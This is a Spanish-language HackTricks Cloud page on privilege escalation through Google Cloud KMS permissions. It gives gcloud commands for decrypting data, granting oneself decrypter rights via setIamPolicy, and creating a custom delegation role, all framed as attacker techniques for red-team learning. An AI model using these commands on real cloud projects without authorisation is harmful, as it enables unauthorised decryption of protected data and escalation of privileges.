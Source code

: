 # GCP - KMS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Información sobre KMS:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

Tenga en cuenta que en KMS los **permisos** no solo se **heredan** de Organizaciones, Carpetas y Proyectos, sino también de **Keyrings**.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Puede usar este permiso para **desencriptar información con la clave** sobre la que tiene este permiso.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Un atacante con este permiso podría **darse permisos** para usar la clave para descifrar información.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Aquí hay un desglose conceptual de cómo funciona esta delegación:

1. **La Cuenta de Servicio A** tiene acceso directo para descifrar utilizando una clave específica en KMS.
2. **La Cuenta de Servicio B** recibe el permiso `useToDecryptViaDelegation`. Esto le permite solicitar a KMS que descifre datos en nombre de la Cuenta de Servicio A.

El uso de este **permiso es implícito en la forma en que el servicio KMS verifica los permisos** cuando se realiza una solicitud de descifrado.

Cuando realizas una solicitud de descifrado estándar utilizando la API de Google Cloud KMS (en Python u otro lenguaje), el servicio **verifica si la cuenta de servicio solicitante tiene los permisos necesarios**. Si la solicitud es realizada por una cuenta de servicio con el **permiso `useToDecryptViaDelegation`**, KMS verifica si esta **cuenta tiene permitido solicitar el descifrado en nombre de la entidad que posee la clave**.

#### Configuración para la Delegación

1. **Definir el Rol Personalizado**: Crea un archivo YAML (por ejemplo, `custom_role.yaml`) que defina el rol personalizado. Este archivo debe incluir el permiso `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`. Aquí hay un ejemplo de cómo podría verse este archivo:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Crea el Rol Personalizado Usando el gcloud CLI**: Usa el siguiente comando para crear el rol personalizado en tu proyecto de Google Cloud:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

Reemplace `[YOUR_PROJECT_ID]` con su ID de proyecto de Google Cloud.

3. **Otorgar el Rol Personalizado a una Cuenta de Servicio**: Asigne su rol personalizado a una cuenta de servicio que utilizará este permiso. Use el siguiente comando:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
Reemplace `[YOUR_PROJECT_ID]` y `[SERVICE_ACCOUNT_EMAIL]` con su ID de proyecto y el correo electrónico de la cuenta de servicio, respectivamente.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
